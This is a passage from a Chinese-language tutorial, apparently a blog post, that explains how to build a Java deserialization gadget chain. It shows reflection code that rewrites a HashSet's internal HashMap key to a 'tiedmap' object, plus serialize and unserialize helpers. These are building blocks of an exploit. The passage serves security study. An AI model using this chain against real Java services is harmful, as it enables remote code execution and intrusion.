 传入的key是来自E e，这在writeObject中写明了来自其map成员

而 **map** ，我们可以在 HashSet 中看到并没有一个直接的方法可以直接赋值修改的，这就又要用到反射了

```java
// 指定初始容量为1
HashSet hashSet = new HashSet(1);
hashSet.add("T0dis");
// 反射获取HashSet中map的值
Field HashSet_map =  Class.forName("java.util.HashSet").getDeclaredField("map");
// 取消访问限制检查
HashSet_map.setAccessible(true);
// 获取HashSet中map的值
HashMap hashSetMap = (HashMap) HashSet_map.get(hashSet);
```

然后修改 hashSetMap 中的 key 值为 hashset

```java
// 反射获取 HashMap 中 table 的值
Field table =  Class.forName("java.util.HashMap").getDeclaredField("table");
// 取消访问限制检查
table.setAccessible(true);
// 获取 HashMap 中 table 的值
Object[] hashMapTable = (Object[]) table.get(hashSetMap);

Object node = hashMapTable[0];
if(node == null) {
      node = hashMapTable[1];
}

// 将key 设为 tiedmap
Field key =  node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node, tiedmap);
```



在这里利用反射获取了 hashSetMap 中的 table 属性，table 其实就是 hashmap 的存储底层，将 <Key,Value> 封装在了 Node 对象中，在获取到了 table 中的 key 之后，利用反射修改其为 tiedmap



* 第十一层`java.io.ObjectInputStream.readObject()`

这个就是序列化的过程了

序列化和反序列化的代码如下

```java
public static void serialize(Object obj) throws IOException{
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
    oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
    Object obj = ois.readObject();
    return obj;
}
```
